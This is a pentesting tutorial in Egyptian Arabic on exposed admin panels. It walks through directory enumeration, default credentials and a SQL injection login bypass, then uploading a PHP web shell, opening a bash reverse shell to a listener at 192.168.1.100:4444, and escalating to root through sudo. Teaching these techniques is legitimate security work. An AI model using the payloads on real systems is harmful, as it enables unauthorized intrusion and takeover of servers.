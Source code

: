 تمام، هشرح لك "Exposed Admin Panels" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Exposed Admin Panels؟**

#### **الشرح العميق:**
"Exposed Admin Panels" يعني إن لوحات التحكم بتاعة الأدمن (Admin Panels) في موقع ويب أو نظام متاحة ومكشوفة لأي حد على الإنترنت بدون حماية كافية. اللوحات دي هي اللي بتدي الأدمن القدرة يتحكم في الموقع (زي إضافة مستخدمين، تغيير إعدادات، أو حذف بيانات)، ولما تكون مكشوفة، يعني أي حد يقدر يوصلها من غير ما يثبت إنه الأدمن. ده بيحصل كتير لما:
- المسار بتاعها واضح (زي `/admin` أو `/dashboard`).
- مافيش تسجيل دخول قوي أو حماية زي CAPTCHA أو 2FA.
- اللوحة متاحة للكل بسبب إعدادات ضعيفة.

#### **الأدوات والأوامر العملية:**
1. **فحص المسارات الشائعة:**
   - جرب في المتصفح:
     - `http://target.com/admin`.
     - `http://target.com/dashboard`.
     - `http://target.com/login`.
   - لو ظهرت صفحة تسجيل دخول أو لوحة مباشرة، يبقى مكشوف.

2. **استخدام curl:**
   - `curl -I http://target.com/admin` -> لو رجع `200 OK`، يعني موجود ومفتوح.

3. **أدوات فحص:**
   - بـ Dirb أو Gobuster:
     - `dirb http://target.com /usr/share/wordlists/dirb/common.txt`.
     - لو لقيت `/admin` أو `/controlpanel`، جربها.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب مكتب المدير مفتوح في الشارع، أي حد يقدر يخش يتحكم في كل حاجة! Exposed Admin Panels يعني مكان التحكم بتاع الموقع متاح للكل زي السوق."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
اللوحات دي خطيرة لأنها بتكون الباب الرئيسي للتحكم في الموقع أو النظام. لو المهاجم وصلها:
- **تحكم كامل:** يقدر يضيف مستخدمين، يمسح بيانات، أو يغير إعدادات.
- **سرقة بيانات:** يشوف كل حاجة زي بيانات العملاء أو كلمات السر.
- **زرع أكواد:** يرفع Shell أو Backdoor عشان يرجع تاني.
- **تصعيد صلاحيات:** لو اللوحة متصلة بالسيرفر، يقدر ياخد Root أو System.

في الـ Pentesting، اللوحات المكشوفة دي بتكون كنز لأنها بتديك وصول مباشر لكل حاجة من غير تعب كبير.

#### **الأدوات والأوامر العملية:**
1. **تجربة تسجيل دخول:**
   - لو لقيت `http://target.com/admin/login.php`:
     - جرب كلمات سر افتراضية:
       - Username: `admin` - Password: `admin`.
       - Username: `admin` - Password: `password`.

2. **استغلال بدون تسجيل:**
   - لو `http://target.com/admin` فتحت مباشرة:
     - ابحث عن خيار Upload أو Settings.

3. **SQL Injection للوصول:**
   - لو فيه Login:
     - `http://target.com/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.
     - لو دخلت، يبقى مكشوف وضعيف.

#### **خلاصة بالعامية المصرية:**
"اللوحة دي خطيرة لأنها زي مفتاح العربية، لو حد مسكه هياخد كل حاجة! المهاجم يلاقيها مفتوحة، يخش يلعب في الموقع زي ما يكون بيته."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم اللوحة المكشوفة عشان تتحكم في الموقع أو تاخد وصول أعلى للسيرفر.
- **مثال واقعي:** لو لقيت `/admin` مفتوح، ترفع Shell وتاخد Shell كامل.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي اللوحة مكشوفة، زي ما تكون لقيت كنز في لعبة، بتستخدمه عشان تتحكم في كل حاجة وتبقى الكبير بتاع الماتش!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

#### **الخطوة 2: البحث عن Admin Panels**
- جرب مسارات شائعة:
  - `curl -I http://192.168.1.10/admin` -> لو `200 OK`، يبقى موجود.
  - `curl -I http://192.168.1.10/dashboard`.
- بـ Gobuster:
  - `gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt`.

#### **الخطوة 3: اختبار الوصول**
- لو لقيت `/admin`:
  - افتحه: `http://192.168.1.10/admin`.
  - لو طلب Login:
    - جرب: `admin:admin` أو `admin:password`.
  - لو مفتوح مباشرة، ابحث عن Settings أو Upload.

#### **الخطوة 4: استغلال اللوحة**
- لو دخلت:
  - ابحث عن مكان Upload:
    - ارفع Shell: `<?php system($_GET['cmd']); ?>` كـ `shell.php`.
    - افتح: `http://192.168.1.10/admin/shell.php?cmd=id` -> لو رجع `www-data`.
- لو فيه SQL Injection:
  - `http://192.168.1.10/admin/login.php?user=admin' OR 1=1 -- &pass=anything`.

#### **الخطوة 5: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

#### **الخطوة 6: توثيق**
- سجل المسار اللي لقيته (زي `/admin`) وطريقة الدخول.
- قدم تقرير يوضح إزاي اللوحة المكشوفة فتحت الباب للتحكم.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مكتب المدير مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! اللوحة المكشوفة دي طريقك للفوز بسهولة."

---

### **الخلاصة النهائية:**
Exposed Admin Panels هي ثغرة كبيرة لأنها بتديك وصول مباشر للتحكم في الموقع. في الـ Pentesting، دور عليها بـ curl أو Gobuster، استغلها عشان تدخل، ترفع Shell، أو تاخد صلاحيات أعلى، ووري العميل إن نظامه زي بيت بدون باب! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!